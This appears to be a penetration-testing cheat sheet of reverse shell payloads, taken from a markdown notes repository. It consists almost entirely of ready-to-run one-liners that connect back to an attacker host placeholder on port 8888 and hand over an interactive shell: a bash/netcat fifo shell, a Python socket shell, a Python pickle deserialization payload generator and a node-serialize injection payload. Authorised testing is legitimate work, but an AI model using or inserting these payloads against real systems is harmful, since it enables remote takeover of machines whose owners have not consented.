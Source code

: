 # Reverse Shells

## [⬅ Back to Index](../README.md)

---

```bash
<LHOST> = your attack station ip
```

## Plain Bash Netcat

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <LHOST> 8888 > /tmp/f
```

## Python2 / Python3

```bash
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## Python Class Injection (Bash Netcat)

```python
import pickle
import sys
import base64

cmd = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <LHOST> 8888 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(cmd,))

print(base64.b64encode(pickle.dumps(rce())))
```

## NodeJS Module - node-serialize Injection (Bash Netcat)

```js
_$$ND_FUNC$$_function (){x=require('child_process').exec('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <LHOST> 8888 > /tmp/f', function(error, stdout, stderr) { console.log(stdout) });return x;}()
```